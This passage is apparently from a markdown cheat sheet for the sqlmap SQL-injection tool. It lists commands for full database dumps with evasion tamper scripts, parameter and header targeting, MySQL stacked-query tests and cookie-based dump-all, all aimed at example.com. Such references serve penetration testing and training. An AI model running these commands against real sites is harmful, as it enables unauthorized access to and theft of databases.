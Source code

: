 (Burp Suite request must be saved as `request.txt`)

---

## 3️⃣ Advanced SQLMap Usage

### **Full Database Dump with Evasion Techniques**

```sh
sqlmap -u "https://example.com" --dump --risk 3 --level 5 --random-agent --tamper=randomcase,uppercase,space2comment
```

### **Testing for Specific Parameter**

```sh
sqlmap -u "https://example.com/file.ashx?id=*&name=oajof&age=xxx" -p id --technique=BEUSTQ --dbs
```

### **Batch Mode with Additional Flags**

```sh
sqlmap -r request.txt  --batch --random-agent --tamper=space2comment --drop-set-cookie --banner --threads 10 --dbs
```

---

## 4️⃣ Targeting Specific Databases

### **Example: MySQL Exploitation**

```sh
sqlmap -u "https://example.com?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries" --ignore-code 500
```

### **Checking Headers (Cookies, User-Agent, X-Forwarded-For, Host)**

```sh
sqlmap -u "https://example.com" --headers="Cookie: *" -H "x-forwarded-for: *" -H "x-forwarded-Host: *"
```

### **Dumping All Data from Cookies**

```sh
sqlmap -u "https://example.com" --cookie="id=*" --dump-all
```

---

## 5️⃣ SQL Injection Techniques
